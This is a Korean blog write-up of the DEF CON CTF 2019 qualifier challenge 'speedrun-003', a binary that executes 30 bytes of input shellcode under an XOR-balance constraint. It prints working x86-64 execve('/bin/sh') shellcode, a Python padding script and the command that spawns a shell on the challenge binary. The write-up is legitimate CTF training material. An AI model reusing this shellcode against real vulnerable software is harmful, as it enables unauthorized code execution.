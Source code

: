 ```yaml
---
layout: post
title: ! "[DefconCTF 2019] speedrun-003"
excerpt_separator: <!--more-->
comments : true
tags:
  - Defcon CTF
  - Write-up
---
```


### Description

Defcon CTF 2019 온라인 예선에 나왔던 문제.

다른 팀원들이 일부러인지 안 풀어서 풀어보았다.


<!--more-->

### 문제 풀이

문제 자체는 무지 간단하다.

![]({{ site.baseurl }}/images/KRater/2019-06-01-speedrun003-writeup/pic01.png)

입력 받고, 그대로 쉘코드를 실행시켜 준다. 대신에 조건이 두 가지가 있는데

1) 쉘 코드 길이가 30이어야 하고,

2) 앞 15바이트가 뒤 15바이트와 xor 연산 결과가 같아야 한다.

말 그대로, 앞의 15바이트가 각각 모두 xor한 결과가 뒤의 15바이트를 각각 모두 xor한 결과와 같아야 한다는 것이다.

문제를 풀기 위해 사용한 쉘 코드는 스탠다드한 24바이트짜리 쉘코드이다.

`\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05`

해당 쉘코드의 끝에 도달하면 뒤의 인스트럭션은 실행될 필요가 없으므로, 뒤에 패딩 6바이트를 붙여서 전반부 쉘코드의 xor 된 결과와 후반부 쉘코드의 xor 된 결과를 같게 만들어주면 된다.

```python
sc = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

print (len(sc))
tmp = 0
for i in range (0,15):
    tmp = tmp ^ ord(sc[i])

print ("first 15 bytes : 0x%X" % tmp) # result : 0xCD

tmp = 0
for i in range (15, len(sc)):
    tmp = tmp ^ ord(sc[i])

print ("last 15 bytes : 0x%X" % tmp) # result : 0xC2

#sc[24] = "\xC2" # xored = 0
#sc[25] = "\xCD" # xored = CD
#sc[26] = "\xCD" # xored = 0
#sc[27] = "\xCD" # xored = CD
#sc[28] = "\xCD" # xored = 0
#sc[29] = "\xCD" # xored = CD

sc2 = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\xC2\xCD\xCD\xCD\xCD\xCD"

print (len(sc2))
print (sc2)
```

이제 0xC2를 0xCD로 바꾸어주면 되므로, 뒤에 패딩을 붙인다. 0xC2를 xor해서 0으로 만들어준 뒤, 0xCD를 홀수 번 xor시켜서 최종 결과가 0xCD가 되도록 맞추어 준다.

```bash
cragy0516@argos-edu:~/decon2019/speedrun-003$ (python -c 'print "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\xC2\xCD\xCD\xCD\xCD\xCD"';cat) | ./speedrun-003
Think you can drift?
Send me your drift
ls
cal.py	ex.py  speedrun-003
```

쉘 코드가 성공적으로 실행되었다.
